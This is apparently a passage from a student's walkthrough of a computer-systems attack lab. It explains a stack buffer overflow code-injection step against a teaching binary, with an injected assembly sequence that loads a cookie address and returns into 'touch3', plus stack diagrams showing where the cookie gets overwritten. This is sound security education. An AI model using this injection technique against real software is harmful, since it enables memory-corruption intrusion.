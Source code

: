 **Note**: This time it is a pointer (simply a value in `phase_2`), we must pass an address to it and then store our hex cookie in that address.

we may consider injecting codes like:

```c++
movq    $address, %rdi          // the address of our cookie
pushq   $0x4018fa               // address of touch3
ret                             // return to touch3
```

But what address should we use? If we put it in the buffer, like:

```c
|  return: %rsp  |    // return address of after calling `get_buf`
|     ....       |   
|     cookie     |
|     ....       |   
|     ret        |   
|     pushq      |
|     move       |    // %rsp: 0x5561dc78
```

We may not get the correct answer. See the codes of `hexmatch` and `touch3`:

```c++
000000000040184c <hexmatch>:
  40184c:  41 54                  push   %r12
  40184e:  55                     push   %rbp
  40184f:  53                     push   %rbx
  // ...
00000000004018fa <touch3>:
  4018fa:  53                     push   %rbx
  // ...
```

As we can see here, the `touch3` and `hexmatch` push data into stack and may **cover** the buffer we try to input.

This is because after we call `Gets()` in `getbuf()`, the stack is like this:

```c
|  return: %rsp  |    // return address of after calling `get_buf`
|     ....       |   
|     ....       |
|     ....       |   
|     ret        |   
|     pushq      |
|     move       |    // %rsp: 0x5561dc78
```

But in the end of getbuf, it will add 0x28 to `%rsp` and then `pushq` and make it `0x5561dca8`, the stack is now like this:

```c
|     ....       | // %rsp: 0x5561dca8
|  return: %rsp  |    
|     ....       | // value here may be covered by push!
|     ....       | // value here may be covered by push!
|     ....       | // value here may be covered by push!
|     ret        |   
|     pushq      |
|     move       | // %rsp before: 0x5561dc78
```
